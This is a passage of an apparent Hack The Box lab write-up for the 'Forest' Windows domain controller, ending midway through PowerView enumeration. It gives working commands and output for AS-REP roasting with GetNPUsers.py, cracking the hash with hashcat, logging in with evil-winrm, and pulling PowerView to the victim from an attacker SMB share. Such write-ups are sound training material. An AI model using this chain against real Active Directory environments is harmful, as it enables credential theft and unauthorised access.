



### Nmap scan:
```
# Nmap 7.92 scan initiated Sun Jan 15 22:12:44 2023 as: nmap -sC -sV -vv -oA quick 10.10.10.161
adjust_timeouts2: packet supposedly had rtt of -1875009 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -1875009 microseconds.  Ignoring time.
Increasing send delay for 10.10.10.161 from 160 to 320 due to 11 out of 13 dropped probes since last increase.
Increasing send delay for 10.10.10.161 from 320 to 640 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.10.10.161 from 640 to 1000 due to 11 out of 11 dropped probes since last increase.
adjust_timeouts2: packet supposedly had rtt of -1871337 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -1871337 microseconds.  Ignoring time.
Nmap scan report for 10.10.10.161
Host is up, received echo-reply ttl 127 (0.072s latency).
Scanned at 2023-01-15 22:12:44 EST for 305s
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      REASON          VERSION
53/tcp   open  domain       syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-01-16 03:24:21Z)
135/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?    syn-ack ttl 127
593/tcp  open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped   syn-ack ttl 127
3268/tcp open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped   syn-ack ttl 127
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h46m49s, deviation: 4h37m08s, median: 6m48s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2023-01-16T03:24:30
|_  start_date: 2023-01-16T03:19:17
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 36383/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 32753/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 51022/udp): CLEAN (Timeout)
|   Check 4 (port 44587/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-01-15T19:24:26-08:00

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 15 22:17:49 2023 -- 1 IP address (1 host up) scanned in 304.95 seconds
```

#### DNS:
```
dig  @10.10.10.161 htb.local
; <<>> DiG 9.18.0-2-Debian <<>> @10.10.10.161 htb.local
; (1 server found)
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 42579
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
; COOKIE: c25488d49fb85ff5 (echoed)
;; QUESTION SECTION:
;htb.local.                     IN      A

;; ANSWER SECTION:
htb.local.              600     IN      A       10.10.10.161

;; Query time: 135 msec
;; SERVER: 10.10.10.161#53(10.10.10.161) (UDP)
;; WHEN: Mon Jan 16 19:45:37 EST 2023
;; MSG SIZE  rcvd: 66


Zone transfer:
 dig axfr  @10.10.10.161 htb.local
; <<>> DiG 9.18.0-2-Debian <<>> axfr @10.10.10.161 htb.local
; (1 server found)
;; global options: +cmd
; Transfer failed.
```


### Enum4Linux:
```
enum4linux 10.10.10.161                                  
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Mon Jan 16 19:48:54 2023

 =========================================( Target Information )=========================================

Target ........... 10.10.10.161
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

 ================================( Getting domain SID for 10.10.10.161 
Domain Name: HTB                                                                                                                                                                             
Domain Sid: S-1-5-21-3072663084-364016917-1341370565

[+] Host is part of a domain (not a workgroup)                                                                                                                                               
 ===================================( OS information on 10.10.10.161 
[E] Can't get OS info with smbclient   

[+] Got OS info for 10.10.10.161 from srvinfo:                                                                                                                                               
do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED                                                                                                                       


 =======================================( Users on 10.10.10.161 )=======================================
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]

[+] Found domain(s):

        [+] HTB
        [+] Builtin

[+] Password Info for Domain: HTB

        [+] Minimum password length: 7
        [+] Password history length: 24
        [+] Maximum password age: Not Set
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: 1 day 4 minutes 
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: Not Set


[+] Retieved partial password policy with rpcclient:                                                                                                                                         
                                                                                                                                                                                             
                                                                                                                                                                                             
Password Complexity: Disabled                                                                                                                                                                
Minimum Password Length: 7


 =======================================( Groups on 10.10.10.161 )=======================================
                                                                                                                                                                                             
                                                                                                                                                                                             
[+] Getting builtin groups:                                                                                                                                                                  
                                                                                                                                                                                             
group:[Account Operators] rid:[0x224]                                                                                                                                                        
group:[Pre-Windows 2000 Compatible Access] rid:[0x22a]
group:[Incoming Forest Trust Builders] rid:[0x22d]
group:[Windows Authorization Access Group] rid:[0x230]
group:[Terminal Server License Servers] rid:[0x231]
group:[Administrators] rid:[0x220]
group:[Users] rid:[0x221]
group:[Guests] rid:[0x222]
group:[Print Operators] rid:[0x226]
group:[Backup Operators] rid:[0x227]
group:[Replicator] rid:[0x228]
group:[Remote Desktop Users] rid:[0x22b]
group:[Network Configuration Operators] rid:[0x22c]
group:[Performance Monitor Users] rid:[0x22e]
group:[Performance Log Users] rid:[0x22f]
group:[Distributed COM Users] rid:[0x232]
group:[IIS_IUSRS] rid:[0x238]
group:[Cryptographic Operators] rid:[0x239]
group:[Event Log Readers] rid:[0x23d]
group:[Certificate Service DCOM Access] rid:[0x23e]
group:[RDS Remote Access Servers] rid:[0x23f]
group:[RDS Endpoint Servers] rid:[0x240]
group:[RDS Management Servers] rid:[0x241]
group:[Hyper-V Administrators] rid:[0x242]
group:[Access Control Assistance Operators] rid:[0x243]
group:[Remote Management Users] rid:[0x244]
group:[System Managed Accounts Group] rid:[0x245]
group:[Storage Replica Administrators] rid:[0x246]
group:[Server Operators] rid:[0x225]

[+]  Getting builtin group memberships:                                                                                                                                                      
                                                                                                                                                                                             
Group: Users' (RID: 545) has member: Couldn't lookup SIDs                                                                                                                                    
Group: Windows Authorization Access Group' (RID: 560) has member: Couldn't lookup SIDs
Group: Guests' (RID: 546) has member: Couldn't lookup SIDs
Group: IIS_IUSRS' (RID: 568) has member: Couldn't lookup SIDs
Group: Account Operators' (RID: 548) has member: Couldn't lookup SIDs
Group: System Managed Accounts Group' (RID: 581) has member: Couldn't lookup SIDs
Group: Pre-Windows 2000 Compatible Access' (RID: 554) has member: Couldn't lookup SIDs
Group: Administrators' (RID: 544) has member: Couldn't lookup SIDs
Group: Remote Management Users' (RID: 580) has member: Couldn't lookup SIDs

[+]  Getting local groups:                                                                                                                                                                   
                                                                                                                                                                                             
group:[Cert Publishers] rid:[0x205]                                                                                                                                                          
group:[RAS and IAS Servers] rid:[0x229]
group:[Allowed RODC Password Replication Group] rid:[0x23b]
group:[Denied RODC Password Replication Group] rid:[0x23c]
group:[DnsAdmins] rid:[0x44d]


[+]  Getting domain groups:                                                                                                                                                                  
                                                                                                                                                                                             
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]                                                                                                                                  
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Organization Management] rid:[0x450]
group:[Recipient Management] rid:[0x451]
group:[View-Only Organization Management] rid:[0x452]
group:[Public Folder Management] rid:[0x453]
group:[UM Management] rid:[0x454]
group:[Help Desk] rid:[0x455]
group:[Records Management] rid:[0x456]
group:[Discovery Management] rid:[0x457]
group:[Server Management] rid:[0x458]
group:[Delegated Setup] rid:[0x459]
group:[Hygiene Management] rid:[0x45a]
group:[Compliance Management] rid:[0x45b]
group:[Security Reader] rid:[0x45c]
group:[Security Administrator] rid:[0x45d]
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]

[+]  Getting domain group memberships:                                                                                                                                                       
                                                                                                                                                                                             
Group: 'Managed Availability Servers' (RID: 1120) has member: HTB\EXCH01$                                                                                                                    
Group: 'Managed Availability Servers' (RID: 1120) has member: HTB\Exchange Servers
Group: 'Domain Users' (RID: 513) has member: HTB\Administrator
Group: 'Domain Users' (RID: 513) has member: HTB\DefaultAccount
Group: 'Domain Users' (RID: 513) has member: HTB\krbtgt
Group: 'Domain Users' (RID: 513) has member: HTB\$331000-VK4ADACQNUCA
Group: 'Domain Users' (RID: 513) has member: HTB\SM_2c8eef0a09b545acb
Group: 'Domain Users' (RID: 513) has member: HTB\SM_ca8c2ed5bdab4dc9b
Group: 'Domain Users' (RID: 513) has member: HTB\SM_75a538d3025e4db9a
Group: 'Domain Users' (RID: 513) has member: HTB\SM_681f53d4942840e18
Group: 'Domain Users' (RID: 513) has member: HTB\SM_1b41c9286325456bb
Group: 'Domain Users' (RID: 513) has member: HTB\SM_9b69f1b9d2cc45549
Group: 'Domain Users' (RID: 513) has member: HTB\SM_7c96b981967141ebb
Group: 'Domain Users' (RID: 513) has member: HTB\SM_c75ee099d0a64c91b
Group: 'Domain Users' (RID: 513) has member: HTB\SM_1ffab36a2f5f479cb
Group: 'Domain Users' (RID: 513) has member: HTB\HealthMailboxc3d7722
Group: 'Domain Users' (RID: 513) has member: HTB\HealthMailboxfc9daad
Group: 'Domain Users' (RID: 513) has member: HTB\HealthMailboxc0a90c9
Group: 'Domain Users' (RID: 513) has member: HTB\HealthMailbox670628e
Group: 'Domain Users' (RID: 513) has member: HTB\HealthMailbox968e74d
Group: 'Domain Users' (RID: 513) has member: HTB\HealthMailbox6ded678
Group: 'Domain Users' (RID: 513) has member: HTB\HealthMailbox83d6781
Group: 'Domain Users' (RID: 513) has member: HTB\HealthMailboxfd87238
Group: 'Domain Users' (RID: 513) has member: HTB\HealthMailboxb01ac64
Group: 'Domain Users' (RID: 513) has member: HTB\HealthMailbox7108a4e
Group: 'Domain Users' (RID: 513) has member: HTB\HealthMailbox0659cc1
Group: 'Domain Users' (RID: 513) has member: HTB\sebastien
Group: 'Domain Users' (RID: 513) has member: HTB\lucinda
Group: 'Domain Users' (RID: 513) has member: HTB\svc-alfresco
Group: 'Domain Users' (RID: 513) has member: HTB\andy
Group: 'Domain Users' (RID: 513) has member: HTB\mark
Group: 'Domain Users' (RID: 513) has member: HTB\santi
Group: 'Enterprise Admins' (RID: 519) has member: HTB\Administrator
Group: 'Domain Guests' (RID: 514) has member: HTB\Guest
Group: 'Exchange Servers' (RID: 1118) has member: HTB\EXCH01$
Group: 'Exchange Servers' (RID: 1118) has member: HTB\$D31000-NSEL5BRJ63V7
Group: 'Group Policy Creator Owners' (RID: 520) has member: HTB\Administrator
Group: 'Exchange Windows Permissions' (RID: 1121) has member: HTB\Exchange Trusted Subsystem
Group: 'Privileged IT Accounts' (RID: 1149) has member: HTB\Service Accounts
Group: 'Exchange Trusted Subsystem' (RID: 1119) has member: HTB\EXCH01$
Group: 'Schema Admins' (RID: 518) has member: HTB\Administrator
Group: 'Service Accounts' (RID: 1148) has member: HTB\svc-alfresco
Group: 'Domain Controllers' (RID: 516) has member: HTB\FOREST$
Group: 'Domain Computers' (RID: 515) has member: HTB\EXCH01$
Group: 'Organization Management' (RID: 1104) has member: HTB\Administrator
Group: 'Domain Admins' (RID: 512) has member: HTB\Administrator
Group: '$D31000-NSEL5BRJ63V7' (RID: 1133) has member: HTB\EXCH01$
enum4linux complete on Mon Jan 16 19:52:17 2023
```

### SMB:
```
smbclient -L \\\\10.10.10.161\\ 
Password for [WORKGROUP\root]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.161 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
```

### Shell as svc-alfresco

We got an interesting list of users:
```
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Since I didn't find anything solid on the box, I tried to do ASREP Roasting Attack to this list of users.

**ASREP Roasting:**
```
AS-REP roasting is a technique in which the password can be retrieved because the 'Do not require Kerberos preauthentication property' is enabled, or kerberos preauthentication is disabled. An attacker can skip the first step of authentication and request a TGT for this user, which can then be cracked offline.
```

I used ```GetNPUsers.py``` tool for that, it gets all the users that don't require a Keberos pre-authentication and extracts their TGTs.
```
GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/' -format hashcat
```
Another way of doing this is making a bash loop that gets each user from our users list, and use the GetNPUsers impacket tool for each one of them:
```
for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:bcdb00314294e0308c011b3f233d3f07$d430d84d6be9da2063bdd7837c11e54112183a9d19bce72c9816fb2a642fd4c6496340aecb83aeec39eae6d1e6a6232ba54eada453227c197878a4947d2264fcc7d1e42652f51b5d2033c91489e86684155224317f44532afc0cdcc6aa7b693049625f9b9b6adc4b937a46eba07c5cb7800383f354aa435db9d1b2d00f7074dbdddcafb7ca2e6c81d97f331bd34396a20411aff2dd38c7bcd6d63f342bc383a617db976cbc7f58b8c305f5075f44fc26fc3245d05beac6e2f5b98f3f6805aa16bea2c1e2187526d28997e90959f9a6410182e8bdba0eb4bb9e85b326a93357da

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Crack ```svc-alfresco``` hash:
```
.\hashcat.exe -m 18200 .\hash.txt .\rockyou.txt
$krb5asrep$23$svc-alfresco@HTB:8325c5c07d0b1aeb9dfd06f3185c2a16$e5f041f45cff36d5f33a32b7c2ceef3092a84d77edcb5dfcc13b3e6206c8f0f695eaf4c2d276e154cd061007f06b4a406ec314871b220f24fb8ff7b2c931505600c64d4b230f445e644aa96d1e2f14ea7e6392851cc55b5ceab42fa4d1b42624a6592fd48097f0eed00ea932ce13372d1ffe73b3b4aba17e7aaf4227b64e443f8c25f601ee251ebba2a0933f6d8f71f24fbdbf5853a395a6ca4ff21c8aa8ccde96c68b60858af7634b48f0e2efbc221efc221597bcc6dcdf0e05de68fa908f1069989fa77629f375c4a30dc3fe35b63cec7a95d89e46a93c89cef8d03f147277:s3rvice
```

Since I did a quick nmap scan, I didn't see if WinRm port is open (5985/5986), but I gave it a try:
```
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p "s3rvice"
```

And it worked: </br>


# Privilege Escalation

To enumerate I transfered ```Powerview.ps1``` to the victim machine:
```
Attacker machine:
smbserver.py -smb2support kali .

Victim Machine:
copy \\10.10.14.34\kali\PowerView.ps1
```

**PowerView Enumeration:** </br>
```
. .\Powerview.ps1
Get-NetDomain
Forest                  : htb.local
DomainControllers       : {FOREST.htb.local}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  :
PdcRoleOwner            : FOREST.htb.local
RidRoleOwner            : FOREST.htb.local
InfrastructureRoleOwner : FOREST.htb.local
Name                    : htb.local

---

Get-NetDomainController
FOREST.htb.local

---

Get-DomainSID
S-1-5-21-3072663084-364016917-1341370565

---

Get-NetUser | select samaccountname, memberof
svc-alfresco         CN=Service Accounts,OU=Security Groups,DC=htb,DC=local

---

Get-NetComputer -fulldata | select samaccountname, operatingsystem, operatingsystemversion
FOREST$        Windows Server 2016 Standard 10.0 (14393)
EXCH01$        Windows Server 2016 Standard 10.0 (14393)

---

Get-NetGroup (Left only what was interesting)
DnsAdmins
UM Management
Help Desk
Records Management
Discovery Management
Server Management
Delegated Setup
Hygiene Management
Compliance Management
Security Reader
Security Administrator
Exchange Servers
Exchange Trusted Subsystem
Managed Availability Servers
Exchange Windows Permissions
ExchangeLegacyInterop
Service Accounts
Privileged IT Accounts
test

---

Get-NetGroupMember -Groupname "Privileged IT Accounts"
GroupName    : Privileged IT Accounts
MemberName   : Service Accounts

---

Get-NetOU -Fulldata
usncreated            : 25999
name                  : Information Technology
whenchanged           : 9/22/2019 9:39:04 PM
objectclass           : {top, organizationalUnit}
usnchanged            : 32848
dscorepropagationdata : {1/16/2023 4:58:30 AM, 1/16/2023 4:58:30 AM, 1/16/2023 4:58:30 AM, 1/16/2023 4:58:30 AM...}
adspath               : LDAP://OU=Information Technology,OU=Employees,DC=htb,DC=local
distinguishedname     : OU=Information Technology,OU=Employees,DC=htb,DC=local
ou                    : Information Technology
whencreated           : 9/20/2019 12:21:26 AM
instancetype          : 4
objectguid            : dfbafd44-447f-4ba0-9bad-cfae492e6413
objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local

usncreated            : 26003
name                  : Exchange Administrators
whenchanged           : 9/20/2019 12:44:57 AM
objectclass           : {top, organizationalUnit}
usnchanged            : 26062
dscorepropagationdata : {1/16/2023 4:58:30 AM, 1/16/2023 4:58:30 AM, 1/16/2023 4:58:30 AM, 1/16/2023 4:58:30 AM...}
adspath               : LDAP://OU=Exchange Administrators,OU=Information Technology,OU=Employees,DC=htb,DC=local
distinguishedname     : OU=Exchange Administrators,OU=Information Technology,OU=Employees,DC=htb,DC=local
ou                    : Exchange Administrators
whencreated           : 9/20/2019 12:21:50 AM
instancetype          : 4
objectguid            : 3902c8e3-5ccc-49fd-804e-dce0813c50d6
objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local

usncreated            : 26007
name                  : Developers
whenchanged           : 9/20/2019 12:22:11 AM
objectclass           : {top, organizationalUnit}
usnchanged            : 26008
dscorepropagationdata : {1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:30 AM...}
adspath               : LDAP://OU=Developers,OU=Information Technology,OU=Employees,DC=htb,DC=local
distinguishedname     : OU=Developers,OU=Information Technology,OU=Employees,DC=htb,DC=local
ou                    : Developers
whencreated           : 9/20/2019 12:22:11 AM
instancetype          : 4
objectguid            : 98d97b19-add5-499a-8fa3-baee971306b0
objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local

usncreated            : 26009
name                  : Application Support
whenchanged           : 9/20/2019 12:22:36 AM
objectclass           : {top, organizationalUnit}
usnchanged            : 26011
dscorepropagationdata : {1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:30 AM...}
adspath               : LDAP://OU=Application Support,OU=Information Technology,OU=Employees,DC=htb,DC=local
distinguishedname     : OU=Application Support,OU=Information Technology,OU=Employees,DC=htb,DC=local
ou                    : Application Support
whencreated           : 9/20/2019 12:22:28 AM
instancetype          : 4
objectguid            : 46e53884-3294-4016-bf9d-bb102513fca4
objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local

usncreated            : 26042
name                  : Sales
whenchanged           : 9/22/2019 9:39:20 PM
objectclass           : {top, organizationalUnit}
usnchanged            : 32850
dscorepropagationdata : {1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:30 AM...}
adspath               : LDAP://OU=Sales,OU=Employees,DC=htb,DC=local
distinguishedname     : OU=Sales,OU=Employees,DC=htb,DC=local
ou                    : Sales
whencreated           : 9/20/2019 12:40:39 AM
instancetype          : 4
objectguid            : 3949abd7-0657-4af5-9aba-eb7a3d0c0de7
objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local

usncreated            : 26044
name                  : Marketing
whenchanged           : 9/22/2019 9:39:58 PM
objectclass           : {top, organizationalUnit}
usnchanged            : 32854
dscorepropagationdata : {1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:30 AM...}
adspath               : LDAP://OU=Marketing,OU=Employees,DC=htb,DC=local
distinguishedname     : OU=Marketing,OU=Employees,DC=htb,DC=local
ou                    : Marketing
whencreated           : 9/20/2019 12:40:50 AM
instancetype          : 4
objectguid            : b4f6f807-e0f8-4c8c-a19c-3eb86c2fdda7
objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local

usncreated            : 26047
name                  : Reception
whenchanged           : 9/22/2019 9:39:41 PM
objectclass           : {top, organizationalUnit}
usnchanged            : 32852
dscorepropagationdata : {1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:30 AM...}
adspath               : LDAP://OU=Reception,OU=Employees,DC=htb,DC=local
distinguishedname     : OU=Reception,OU=Employees,DC=htb,DC=local
ou                    : Reception
whencreated           : 9/20/2019 12:41:59 AM
instancetype          : 4
objectguid            : 07df9c29-a241-4235-8c29-c193d24fc904
objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local

usncreated            : 26060
name                  : IT Management
whenchanged           : 9/20/2019 12:44:47 AM
objectclass           : {top, organizationalUnit}
usnchanged            : 26061
dscorepropagationdata : {1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:30 AM...}
adspath               : LDAP://OU=IT Management,OU=Information Technology,OU=Employees,DC=htb,DC=local
distinguishedname     : OU=IT Management,OU=Information Technology,OU=Employees,DC=htb,DC=local
ou                    : IT Management
whencreated           : 9/20/2019 12:44:46 AM
instancetype          : 4
objectguid            : 32386455-6007-4db1-9fa7-d368649b50fa
objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local

usncreated            : 26063
name                  : Helpdesk
whenchanged           : 9/20/2019 12:45:12 AM
objectclass           : {top, organizationalUnit}
usnchanged            : 26064
dscorepropagationdata : {1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:30 AM...}
adspath               : LDAP://OU=Helpdesk,OU=Information Technology,OU=Employees,DC=htb,DC=local
distinguishedname     : OU=Helpdesk,OU=Information Technology,OU=Employees,DC=htb,DC=local
ou                    : Helpdesk
whencreated           : 9/20/2019 12:45:12 AM
instancetype          : 4
objectguid            : a7ce94a3-b3c5-4198-b5d6-b8a2275e49f7
objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local

usncreated            : 26065
name                  : Sysadmins
whenchanged           : 9/20/2019 12:45:38 AM
objectclass           : {top, organizationalUnit}
usnchanged            : 26066
dscorepropagationdata : {1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:31 AM, 1/16/2023 4:58:30 AM...}
adspath               : LDAP://OU=Sysadmins,OU=Information Technology,OU=Employees,DC=htb,DC=local
distinguishedname     : OU=Sysadmins,OU=Information Technology,OU=Employees,DC=htb,DC=local
ou                    : Sysadmins
whencreated           : 9/20/2019 12:45:38 AM
instancetype          : 4
objectguid            : 8414356c-1f79-44bf-9861-cd84412a69eb
objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local

usncreated            : 26069
name                  : Service Accounts
whenchanged           : 9/20/2019 12:46:28 AM
objectclass           : {top, organizationalUnit}
usnchanged            : 26070
dscorepropagationdata : {1/16/2023 4:58:30 AM, 1/16/2023 4:58:30 AM, 1/16/2023 4:58:30 AM, 1/16/2023 4:58:26 AM...}
adspath               : LDAP://OU=Service Accounts,DC=htb,DC=local
distinguishedname     : OU=Service Accounts,DC=htb,DC=local
ou                    : Service Accounts
whencreated           : 9/20/2019 12:46:28 AM
instancetype          : 4
objectguid            : 1202934e-089b-4931-a5ba-954ad48ad491
